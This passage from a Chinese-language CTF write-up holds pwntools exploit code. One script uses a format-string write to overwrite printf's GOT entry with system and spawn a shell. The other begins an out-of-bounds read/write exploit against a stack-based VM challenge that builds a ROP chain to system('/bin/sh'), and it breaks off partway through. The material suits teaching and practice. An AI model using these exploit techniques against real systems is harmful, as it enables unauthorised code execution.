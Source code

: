 ```py
log.info("libc_base: "+hex(libc_base))

# write to got
# system: 52290 printf 0061C90
# 利用它栈上的 input buffer 可以额外写一些值
printf_got = proc_base + 0x3738
system = libc_base + 0x52290
mywrite(4,"/bin/sh\x00\n")
payload = ("a%"+str(system%0x10000 - 0x31 - 0x81)+"c%14$hn").ljust(0x20,"a")
mywrite(2,payload)
payload2 = ("%"+str((system//0x10000)%0x100)+"c%15$hhn").ljust(0x10,"a")
payload2 = payload2.encode("latin-1") + p64(printf_got) + p64(printf_got+2)
gdb.attach(p,'''
b *$rebase(0x14d8)
''')
pause()
mywrite(1,payload2)

myread(1)
# trigger
myread(4)
p.interactive()
```

## vc1k
一个特别简单的栈上虚拟机（但是不知道为啥好像解数不多），实现的 `load`，`store` bytecode 可以越界读写，思路是用返回地址 `__libc_start_main` 来 leak 然后覆盖返回地址为 `p64(pop_rdi_ret) + p64(libc_binsh_addr) + p64(ret) +p64(system)`    

### exp
```py
from pwn import*
context(arch='amd64',os='linux',log_level='debug')
# 先从栈上 load 出来一个正的 offset 再 leak libc 改返回地址，不难
# p = process("./chal")
p = remote("vc1k.kctf-453514-codelab.kctf.cloud",1337)
def opcode(op,dst,src,imm):
    raw_num = src + dst*8 + imm*64 + op*8192
    return p16(raw_num)

def add(src,dst):
    return opcode(0,dst,src,0)

def neg(src,dst):
    return opcode(1,dst,src,0)

def cjmp(src,dst,imm):
    return opcode(2,dst,src,imm)

def load(src,dst,imm):
    return opcode(4,dst,src,imm)

def store(src,dst,imm):
    return opcode(6,dst,src,imm)
def my_exit():
    return opcode(3,0,0,0)
# start 是 0x60
payload = load(0,1,0x60)
payload += load(1,2,44) + load(1,3,45) + load(1,4,46) + load(0,5,0x63) + add(5,2) + store(1,2,28)+store(1,3,29) + store(1,4,30)
payload += load(0,5,0x66) +add(5,2) + store(1,2,36) + store(1,3,37) + store(1,4,38)
payload += load(0,5,0x61) + load(0,6,0x62) + add(5,2) + add(6,3) + store(1,2,40) + store(1,3,41) + store(1,4,42) + store(1,0,39) + store(1,0,43)
```
